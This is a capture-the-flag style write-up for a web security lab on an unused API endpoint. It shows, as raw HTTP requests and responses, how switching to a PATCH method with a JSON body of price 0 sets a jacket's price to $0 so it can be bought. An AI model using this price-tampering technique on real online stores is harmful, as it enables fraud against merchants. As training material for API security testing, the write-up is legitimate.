




# Lab: Finding and exploiting an unused API endpoint
To solve the lab, exploit a hidden API endpoint to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- How to use error messages to construct a valid request.
- How HTTP methods are used by RESTful APIs.
- How changing the HTTP method can reveal additional functionality.

These points are covered in our API Testing Academy topic.

# Solution
Start by logging in and add the product "Lightweight l33t Leather Jacket" to the cart the problem get obvious. That the provided user don't have any store credit. So either adding credits or lowering the price should be the solution here.  



Checking the JavaScript of the application a function that reveals the ```/api``` endpoint is revealed.



Sending a ```GET``` request to this endpoint retrieves the price and a message for the product.  
```http
GET /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 94

{"price":"$1337.00","message":"&#x1F525; 49 users have purchased this in the last 12 minutes"}
```


Testing to send a ```PATCH``` instead reveals a error message saying that ```Content-type: application/json``` is needed.  
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```


Sending a ```POST``` gives this response. The header ```Allow: GET, PATCH``` reveals that the ```PATCH``` method is allowed.
```http
POST /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 0
Content-Type: application/json

```

```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```


Making a ```PATCH``` request with an empty JSON body reveals a parameters that is needed.  
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 2
Content-Type: application/json

{}
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 77

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```


Sending a ```PATCH``` request with the JSON body ```"price": 0```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a030094035e177080543a41003e0068.web-security-academy.net
Cookie: session=tJCobNoNtMVraBdNhaPQ1xKSc211NLX8
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a030094035e177080543a41003e0068.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Length: 15
Content-Type: application/json

{
"price":0
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

And the price on the product gets changed. Now it's possible to purchase the jacket for $0.  





